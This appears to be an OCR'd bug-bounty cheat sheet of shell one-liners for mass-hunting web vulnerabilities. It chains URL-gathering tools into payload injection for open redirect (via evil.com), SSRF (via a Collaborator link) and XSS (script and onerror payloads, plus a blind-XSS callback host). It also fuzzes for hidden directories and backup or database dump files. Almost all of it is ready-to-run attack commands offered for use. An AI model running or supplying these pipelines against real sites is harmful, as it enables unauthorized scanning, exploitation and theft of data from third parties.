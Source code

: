 ```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | grep "=" | dedupe | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
-----------------------
## SSRF:
```
cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> tmp-ssrf.txt; httpx -silent -l tmp-ssrf.txt -fr 
```
----------------
## XSS:
### Knoxss mass hunting
```
file=$1; key="API_KEY"; while read line; do curl https://api.knoxss.pro -d target=$line -H "X-API-KEY: $key" -s | grep PoC; done < $file
```
```
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```
cat targets.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
```
cat urls.txt | grep "=" | sed 's/=.*/=/' | sed 's/URL: //' | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
---------------------
## Hidden Dirs:
```
dirsearch -l ips_alive --full-url --recursive --exclude-sizes=0B --random-agent -e 7z,archive,ashx,asp,aspx,back,backup,backup-sql,backup.db,backup.sql,bak,bak.zip,bakup,bin,bkp,bson,bz2,core,csv,data,dataset,db,db-backup,db-dump,db.7z,db.bz2,db.gz,db.tar,db.tar.gz,db.zip,dbs.bz2,dll,dmp,dump,dump.7z,dump.db,dump.z,dump.zip,exported,gdb,gdb.dump,gz,gzip,ib,ibd,iso,jar,java,json,jsp,jspf,jspx,ldf,log,lz,lz4,lzh,mongo,neo4j,old,pg.dump,phtm,phtml,psql,rar,rb,rdb,rdb.bz2,rdb.gz,rdb.tar,rdb.tar.gz,rdb.zip,redis,save,sde,sdf,snap,sql,sql.7z,sql.bak,sql.bz2,sql.db,sql.dump,sql.gz,sql.lz,sql.rar,sql.tar.gz,sql.tar.z,sql.xz,sql.z,sql.zip,sqlite,sqlite.bz2,sqlite.gz,sqlite.tar,sqlite.tar.gz,sqlite.zip,sqlite3,sqlitedb,swp,tar,tar.bz2,tar.gz,tar.z,temp,tml,vbk,vhd,war,xhtml,xml,xz,z,zip,conf,config,bak,backup,swp,old,db,sql,asp,aspx~,asp~,py,py~,rb~,php,php~,bkp,cache,cgi,inc,js,json,jsp~,lock,wadl -o output.txt
```
```
ffuf -c -w urls.txt:URL -w wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```